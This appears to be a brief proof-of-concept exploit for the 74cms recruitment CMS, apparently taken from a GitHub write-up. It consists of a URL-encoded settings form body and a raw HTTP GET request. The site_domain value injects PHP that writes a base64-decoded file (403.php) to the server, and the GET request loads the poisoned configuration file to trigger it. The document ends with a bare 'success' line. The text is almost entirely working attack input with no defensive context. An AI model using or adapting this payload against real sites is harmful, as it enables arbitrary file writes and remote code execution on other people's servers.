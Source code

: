 ```bash
site_name=%E9%AA%91%E5%A3%AB%E4%BA%BA%E6%89%8D%E7%B3%BB%E7%BB%9F&site_domain='%2C+file_put_contents('403.php'%2Cbase64_decode('PD9waHAgcGhwaW5mbygpOz8%2B'))%2C'&site_dir=%2F74cms%2F&top_tel=000-00000000&bootom_tel=000-00000000&contact_email=&address=00%E7%9C%8100%E5%B8%8200%E8%B7%AF00%E5%8F%B70%E5%A4%A7%E5%8E%A600%E6%A5%BC&bottom_other=Copyright+%C2%A9+2019+74cms.com+All+Right+Reserved+&icp=icp000000000&isclose=0&close_reason=&statistics=&logo_home=&logo_other=
```


```bash
GET /74cms/Application/Common/Conf/url.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

success：

![](images/15889254404078.jpg)
